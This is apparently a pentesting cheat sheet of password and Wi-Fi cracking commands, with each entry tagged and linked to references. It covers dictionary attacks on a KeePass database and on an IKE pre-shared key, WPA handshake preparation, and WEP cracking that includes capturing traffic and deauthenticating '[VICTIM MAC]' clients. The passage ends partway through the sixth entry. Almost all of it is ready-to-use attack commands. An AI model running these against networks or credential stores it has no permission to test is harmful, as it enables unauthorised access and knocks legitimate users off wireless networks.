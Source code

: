 ### 1. KeePass2 Cracking
```
wine KeeCracker.exe -w /data/hacking/dictionaries/rockyou.dic -t 4 Database.kdbx
```
**- linux,passwords,Windows,cracking**
#### References:

https://yg.ht
http://www.cervezhack.fr/2013/02/12/bruteforce-a-keepass-file/?lang=en
__________
### 2. IKE Agressive
```
psk-crack -d [word list e.g. rockyou.txt] [input key file]
```
**- linux,cracking**
#### References:

http://carnal0wnage.attackresearch.com/2011/12/aggressive-mode-vpn-ike-scan-psk-crack.html
__________
### 3. WIFI WPA handshake prep
```
wpaclean [OUTPUT] [INPUT]
```
**- linux,wireless,wifi,cracking**
#### References:

https://www.aircrack-ng.org/doku.php?id=cracking_wpa
__________
### 4. WIFI WPA handshake prep
```
aircrack-ng [INPUT.cap] -J [OUTPUT]
```
**- linux,wireless,wifi,cracking**
#### References:

https://www.aircrack-ng.org/doku.php?id=cracking_wpa
__________
### 5. wep crack : 1) start capturing IV's
```
airodump-ng -c 11 --bssid [VICTIM MAC] -w [OUTPUT] mon0
```
**- linux,wireless,wifi,cracking**
#### References:

https://www.aircrack-ng.org/doku.php?id=simple_wep_crack
__________
### 6. wep crack 2) De auth clients
```
aireplay-ng -0 0 --ignore-negative-one -e [SSID] -a [AP MAC] -c [VICTIM MAC] mon0
```
**- linux,wireless,wifi,cracking**
#### References:
